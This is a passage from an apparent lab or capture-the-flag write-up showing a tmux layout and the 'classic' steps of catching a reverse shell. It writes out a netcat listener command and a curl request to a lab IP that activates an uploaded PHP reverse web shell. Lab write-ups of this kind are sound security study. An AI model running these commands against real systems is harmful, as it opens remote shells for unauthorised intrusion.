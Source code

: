 Here's a screenshot that tells more than words:

![alt text](files/tmux-config.png "screenshot")

_If you need more information or a quick tmux howto + config tips, check out my [dedicated tmux](https://github.com/dvanmosselbeen/dvm-docs/blob/master/OS/GNU-Linux/Tools/tmux.md) document._

**Classic way without fancy toys:**

To resume with other words and without `tmux` dope: I have set a `netcat` listener in a console on my host machine:

```commandline
nc -lvnp 1234
```

Then in another console a command to download (read activate) the reverse web shell with `curl`. That's more handy with a command line tool than a browser that look like loading forever / hanging when opening that file while it's listening and in a remote connection:

```commandline
curl http://10.10.218.64/files/ftp/webshell.php
```
